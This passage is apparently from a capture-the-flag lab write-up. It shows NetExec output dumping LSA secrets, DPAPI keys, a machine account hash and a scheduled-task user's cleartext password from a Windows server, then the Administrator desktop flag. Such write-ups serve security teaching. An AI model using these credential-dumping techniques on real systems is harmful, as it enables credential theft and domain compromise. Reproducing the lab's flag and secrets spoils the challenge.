SMB         10.13.38.54     445    SRV              TEA\SRV$:plain_password_hex:2500640040006a0027005b005f006b003d006e005d00690036002800760030005b004c0020002300640030003a0030003e00710030004b00640064004a0064005e0039004d0079005a002400640029006800320036004a0064006c00430063002c00210035005500440031006200670048002f006d002200600078005b00640050005800590024005f006200440072003b004200550050005a004f005f0025002a004b00690041003f00590020006700680026004e004c00390025003b003400470065002e00290068003a005c00270077002500630060004800480033003a005b006500730020005b00650066004500
SMB         10.13.38.54     445    SRV              TEA\SRV$:aad3b435b51404eeaad3b435b51404ee:aa92407cbc77cea487ff37be7f8d0056:::
SMB         10.13.38.54     445    SRV              dpapi_machinekey:0xc2490cf955eb2de3b779e4c428545f0ab0124b36
dpapi_userkey:0xf1ba34fe52a0793db47181cd4f90676db560e5bf
SMB         10.13.38.54     445    SRV              [+] Dumped 7 LSA secrets to /home/user/.nxc/logs/lsa/SRV.tea.vl_None_2026-03-16_163308.secrets and /home/user/.nxc/logs/lsa/SRV.tea.vl_None_2026-03-16_163308.cached
SMB         10.13.38.54     445    SRV              [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         10.13.38.54     445    SRV              [+] Got 11 decrypted masterkeys. Looting secrets...
SMB         10.13.38.54     445    SRV              [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{AB66DFEF-F6E2-4242-8DD0-772F71786BF9} - TEA\thomas.wallace:6e-34tD8B2QJ

```

And now I have another flag:

```bash
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 028E-6E36

 Directory of C:\Users\Administrator\Desktop

12/24/2023  06:39 AM    <DIR>          .
12/19/2023  02:24 PM    <DIR>          ..
05/19/2025  08:27 PM                37 flag.txt
               1 File(s)             37 bytes
               2 Dir(s)   3,959,644,160 bytes free

C:\Users\Administrator\Desktop> type flag.txt
TEA{8221218b7fdc520083bafda8a28757b8}
C:\Users\Administrator\Desktop> 


```

The continuation follows on the DC page for now.